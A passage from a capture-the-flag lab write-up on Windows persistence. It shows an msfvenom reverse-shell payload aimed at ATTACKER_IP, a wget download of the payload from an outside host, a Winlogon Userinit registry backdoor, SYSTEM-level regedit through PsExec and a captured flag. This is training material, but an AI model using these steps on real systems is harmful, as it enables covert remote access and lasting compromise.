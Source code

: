 ```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```shell-session
C:\> move revshell.exe C:\Windows
```

We then alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use `Userinit`, but the procedure with `shell` is the same.

**Note:** While both `shell` and `Userinit` could be used to achieve persistence in a real-world scenario, to get the flag in this room, you will need to use `Userinit`.

![Backdoored userinit](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/dc5fa3e75ff056f11e16c03373799f45.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Using your newly obtained shell, execute `C:\flags\flag12.exe` to get a flag!

```
wget http://10.14.21.28:8000/revshell.exe -O C:\Windows\revshell.exe

del C:\Windows\revshell.exe

c:\tools\pstools\PsExec64.exe -s -i regedit
```


Once we follow all steps, we get our shell:

![](../images/Pasted%20image%2020250516113622.png)

```
C:\flags>.\flag12.exe
THM{I_INSIST_GO_FIRST}
```


## Logon scripts

One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:
